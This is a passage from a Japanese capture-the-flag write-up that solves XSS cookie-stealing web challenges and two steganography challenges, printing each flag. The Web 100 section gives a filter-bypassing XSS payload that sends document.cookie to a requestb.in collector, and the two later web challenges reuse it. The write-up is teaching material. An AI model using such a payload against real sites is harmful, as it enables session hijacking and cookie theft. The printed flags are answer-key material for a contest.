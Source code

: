 PIN コードは `4762` でした。

```
gigem{RAID_ON_THE_COOKIE_FACTORY}
```

## [Web 100] Secret Cross-site Cookies

与えられた URL を開くと検索ができるサイトが表示されました。

検索フォームで XSS ができるようなので色々試していると、どうやら `<script>` や `</script>` が消されてしまうようだと分かりました。

`<script >` `</script >` のようにスペースを入れると回避できました。

`/web/search_query.php?query=<script+>(new%20Image).src%3D%27http%3A%2F%2Frequestb.in%2Fxxxxxxxx%3F%27%2Bdocument.cookie</script+>` を投げるとフラグが降ってきました。

```
gigem{St3@lIng_Co0kieS_iS_Imp0lite}
```

## [Web 50] Cross-site Cookies

[Web 100] Secret Cross-site Cookies のペイロードがそのまま使えてしまいました。

```
gigem{N0T_So_S3crEt_Co0kI3_HEre}
```

## [Web 150] SUPER Secret Cross-Site Cookies

また [Web 100] Secret Cross-site Cookies のペイロードがそのまま使えてしまいました。

```
gigem{HAv3_A_C00ki3_Th3y_HAV3_S3crETs}
```

## [stego 50] siamese

4e2ff3813a1703e8.gif という GIF ファイルが与えられます。

strings すると `Z2lnZW17dGhlX2NhdF9nb2VzX21lb3dfNGQxNWI0YjA4N2NlYmRlM30=` という文字列が出てきました。これを base64 デコードするとフラグが出てきました。

```
gigem{the_cat_goes_meow_4d15b4b087cebde3}
```

## [stego 100] jpeg ocean

1fc923c4a9ce87f8.jpg という JPEG ファイルが与えられます。

stegsolve.jar で Red plane 0 を見るとフラグが出てきました。

```
gigem{water_w0rld_e0d37e04dd54fe09}
```
